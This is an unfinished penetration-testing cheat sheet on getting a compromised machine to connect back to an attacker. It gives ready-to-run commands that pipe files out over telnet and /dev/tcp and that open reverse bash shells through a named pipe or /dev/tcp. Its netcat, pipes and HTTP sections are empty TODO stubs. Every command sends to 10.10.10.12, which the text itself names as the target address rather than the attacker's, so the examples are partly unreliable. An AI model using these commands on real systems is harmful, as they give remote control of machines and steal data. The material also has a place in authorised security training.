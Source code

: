 ===================================
 Connecting one machine to another
===================================

TODO: Divide up into windows and linux

Often we need to get data from a target machine, or make use of a communication channel that's a little awkward to get a reverse shell that we can make use of more easily.  Here we will list a number of ways to get a target machine to talk back to you once you have a toehold.

In the sections below, we make constant reference to machines by IP and have to keep explaining which one is remote, which one is local, etc. So, to simplify, all target machines are 10.10.10.12 and the machine you're working from is 10.10.10.1. Mostly the port used will be 8765. So, if you see these magic numbers, this is what they mean. If there's any reason to deviate it will be explained. The assumption is that you have something listening on your machine with `nc -lp 8765` or similar.


Using Netcat
============

TODO: Write a netcat section.  Big enough that it needs it's own?



Using Telnet
============

Although not as useful in many situations as netcat, telnet can be used to exfiltrate or provide a reverse shell.  First, let's steal data::

  cat /some/file.txt | telnet 10.10.10.12 8765

Fairly simple. Now let's get a reverse shell::
    
  mknod mypipe p
  telnet 10.10.10.12 8765 0<mypipe | /bin/bash > mypipe

What's happening?

- Line 1 creates a named pipe called "mypipe" that we can use to push data in and out.  If we were using netcat's `-e` option, all the interaction would be done for us, but we need to do our own plumbing.
  - Line 2 is running telnet and connecting to our open port. The first bit of trickery is `0<mypipe` which connects standard input (channel 0) to the pipe such that things going into the pipe get diverted into telnet.  The second part (`| /bin/bash > mypipe`) pipes the output from telnet into a bash shell, which then has it's own output redirected back into the pipe so that it gets connected telnet's input.

TODO: Write something on pipes. Named and unnamed, redirection, standard channels, etc.  With diagrams.
  
Using /dev/tcp
==============

No netcat?  No telnet?  Here's another option...

You can create simple netcat-like connections like this::

  cat /some/file.txt > /dev/tcp/10.10.10.12/8765

Which pushes the contents of `file.txt` into our waiting netcat session.

And making it a shell using black magic fuckery::

  exec 3<>/dev/tcp/10.10.10.12/8765 && bash <&3 >&3

Or::
    
  bash -i >& /dev/tcp/10.10.10.12/8765 0>&1    

As a HTTP request
=================



